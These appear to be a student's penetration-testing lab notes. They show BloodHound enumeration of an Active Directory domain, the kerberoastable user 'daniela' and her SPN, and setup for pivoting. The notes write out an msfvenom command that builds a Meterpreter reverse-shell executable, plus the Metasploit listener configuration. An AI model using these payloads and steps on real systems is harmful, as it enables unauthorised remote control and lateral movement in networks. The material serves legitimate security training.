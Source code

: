 The user of the third active session is displayed as a SID
+ BloodHound uses this representation of a principal when the domain identifier of the SID is from a local machine
+ For this session, this means that the local _Administrator_ (indicated by RID 500) has an active session on INTERNALSRV1

Our next step is to identify all _kerberoastable_ users in the domain
+ To do so, we can use the _List all Kerberoastable Accounts_ pre-built query in BloodHound
![[Pasted image 20240108161803.png]]
+ Above shows that apart from _krbtgt_, _daniela_ is also kerberoastable
+ The _krbtgt_ user account acts as service account for the _Key Distribution Center_ (KDC) and is responsible for encrypting and signing Kerberos tickets
	+ When a domain is set up, a password is randomly generated for this user account, making a password attack unfeasible. 
	+ Therefore, we can often safely skip _krbtgt_ in the context of Kerberoasting

Let's examine the SPN for _daniela_ in BloodHound via the _Node Info_ menu by clicking on the node:
![[Pasted image 20240108161852.png]]
+ Above shows the mapped SPN **`http/internalsrv1.beyond.com`**
+ Based on this, we can assume that a web server is running on INTERNALSRV1
+ Once we've performed Kerberoasting and potentially obtained the plaintext password for _daniela_, we may use it to access INTERNALSRV1

However, as we have stated before, finding an actionable vector should not interrupt our enumeration process
+ We should collect all information, prioritize it, and then perform potential attacks

Therefore, let's set up a SOCKS5 proxy to perform network enumeration via Nmap and CrackMapExec in order to identify accessible services, open ports, and SMB settings
+ First, we'll create a staged Meterpreter TCP reverse shell as an executable file with **msfvenom**
+ Since we can reuse the binary throughout the domain, we can store it in **/home/kali/beyond**
```
kali@kali:~/beyond$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: met.exe
```

Now, let's start a _multi/handler_ listener with the corresponding settings in Metasploit
+ In addition, we'll **set** the option **ExitOnSession** to **false**
+ It specifies that the listener stays active for new sessions without the need to restart it for every incoming session
```
kali@kali:~/beyond$ sudo msfconsole -q

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.119.5
LHOST => 192.168.119.5

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false

```